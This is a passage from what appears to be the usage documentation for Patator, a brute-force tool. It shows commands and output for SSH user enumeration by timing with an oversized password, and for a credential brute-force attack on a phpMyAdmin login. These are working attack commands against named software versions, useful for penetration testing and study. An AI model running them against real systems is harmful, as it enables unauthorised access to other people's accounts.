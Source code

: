 Tested against `vsftpd-3.0.2-9` on `CentOS 7.0-1406`.

* SSH : Time-based user enumeration

```
$ ssh_login host=10.0.0.1 user=FILE0 0=logins.txt password=$(perl -e "print 'A'x50000") --max-retries 0 --timeout 10 -x ignore:time=0-3
17:45:20 patator    INFO - Starting Patator v0.7-beta (https://github.com/lanjelot/patator) at 2015-02-08 17:45 AEDT
17:45:20 patator    INFO -
17:45:20 patator    INFO - code  size    time | candidate                          |   num | mesg
17:45:20 patator    INFO - -----------------------------------------------------------------------------
17:45:30 patator    FAIL - xxx   41    10.001 | root                               |     1 | <class '__main__.TimeoutError'> timed out
17:45:34 patator    FAIL - xxx   41    10.000 | john                               |    23 | <class '__main__.TimeoutError'> timed out
17:45:37 patator    FAIL - xxx   41    10.000 | joe                                |    40 | <class '__main__.TimeoutError'> timed out
...
```

Tested against `openssh-server 1:6.0p1-4+deb7u2` on `Debian 7.8`.

* HTTP : Brute-force phpMyAdmin logon

```
$ http_fuzz url=http://10.0.0.1/pma/index.php method=POST body='pma_username=COMBO00&pma_password=COMBO01&server=1&target=index.php&lang=en&token=' 0=combos.txt before_urls=http://10.0.0.1/pma/index.php accept_cookie=1 follow=1 -x ignore:fgrep='Cannot log in to the MySQL server' -l /tmp/qsdf
11:53:47 patator    INFO - Starting Patator v0.7-beta (http://code.google.com/p/patator/) at 2014-08-31 11:53 EST
11:53:47 patator    INFO -
11:53:47 patator    INFO - code size:clen       time | candidate                          |   num | mesg
11:53:47 patator    INFO - -----------------------------------------------------------------------------
11:53:48 patator    INFO - 200  49585:0        0.150 | root:p@ssw0rd                      |    26 | HTTP/1.1 200 OK
11:53:51 patator    INFO - 200  13215:0        0.351 | root:                              |    72 | HTTP/1.1 200 OK
^C
11:53:54 patator    INFO - Hits/Done/Skip/Fail/Size: 2/198/0/0/3000, Avg: 29 r/s, Time: 0h 0m 6s
11:53:54 patator    INFO - To resume execution, pass --resume 15,15,15,16,15,36,15,16,15,40
```

Payload #72 was a false positive due to an unexpected error message:

```
$ grep AllowNoPassword /tmp/qsdf/72_200\:13215\:0\:0.351.txt
... class="icon ic_s_error" /> Login without a password is forbidden by configuration (see AllowNoPassword)</div><noscript>
```

Tested against `phpMyAdmin 4.2.7.1`.
